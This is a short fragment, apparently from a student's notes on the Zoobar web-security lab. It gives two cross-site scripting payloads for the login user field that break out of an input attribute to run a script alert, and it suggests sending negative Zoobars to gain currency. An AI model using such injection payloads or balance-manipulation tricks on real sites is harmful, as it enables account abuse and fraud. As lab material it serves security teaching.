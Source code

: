 - This payload may be applied to the user field in the login screen
```html
    " type="text" > <script> alert("hi");</script> <input style="none
```

- This payload may **insert a textbox** in the output page
```html
    " type="text" > <script>  alert("hi") ; </script> <input type="hidden
```

- You may also try to send negetive Zoobars to the receiver. That fetches you zoobars

